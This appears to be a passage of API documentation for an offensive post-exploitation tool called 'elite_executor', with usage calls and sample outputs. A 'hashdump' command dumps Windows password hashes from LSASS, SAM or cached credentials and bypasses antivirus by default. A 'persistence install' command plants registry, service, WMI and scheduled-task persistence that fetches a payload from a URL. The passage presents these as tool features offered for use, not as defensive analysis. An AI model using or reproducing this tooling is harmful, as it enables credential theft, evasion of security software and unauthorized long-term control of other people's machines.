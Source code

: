 ### Credential Operations

#### hashdump
Dump password hashes.
```python
result = elite_executor.execute('hashdump', method='lsass')
```

**Parameters:**
- `method`: 'lsass', 'sam', 'cached' (default: 'auto')
- `bypass_av`: boolean (default: true)

**Returns:**
```json
{
    "success": true,
    "hashes": [
        {
            "username": "Administrator",
            "rid": 500,
            "lm": "aad3b435b51404eeaad3b435b51404ee",
            "ntlm": "31d6cfe0d16ae931b73c59d7e0c089c0"
        }
    ],
    "method_used": "lsass_direct"
}
```

### Persistence

#### persistence install
Install persistence mechanism.
```python
result = elite_executor.execute('persistence', 
    action='install',
    method='all'
)
```

**Parameters:**
- `action`: 'install', 'remove', 'check'
- `method`: 'registry', 'service', 'wmi', 'scheduled_task', 'all'
- `payload_url`: URL for payload download

**Returns:**
```json
{
    "success": true,
    "methods_installed": ["registry", "service", "wmi"],
    "methods_failed": [],
    "persistence_key": "HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run"
}
```
